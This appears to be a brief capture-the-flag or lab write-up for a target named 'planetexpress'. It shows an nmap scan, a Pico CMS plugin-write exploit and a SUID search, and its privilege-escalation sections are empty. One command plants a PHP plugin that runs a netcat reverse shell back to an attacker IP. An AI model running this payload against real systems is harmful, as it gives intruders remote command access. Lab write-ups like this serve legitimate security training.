 #Pwned
```IP
192.168.185.205
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.185.205 -vvv -p- -oN enum/full
```
## HTTP

https://github.com/picocms/Pico/blob/master/plugins/DummyPlugin.php

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923171831.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923171757.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923172242.png?raw=true)

```
python fpm.py express.pg /var/www/html/planetexpress/plugins/PicoTest.php -c "<?php passthru('nc 192.168.45.200 80 -e /bin/bash');?>"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923190339.png?raw=true)

```
find / -perm -u=s -type f 2>/dev/null
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923190627.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923191257.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923193705.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923193856.png?raw=true)


# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz


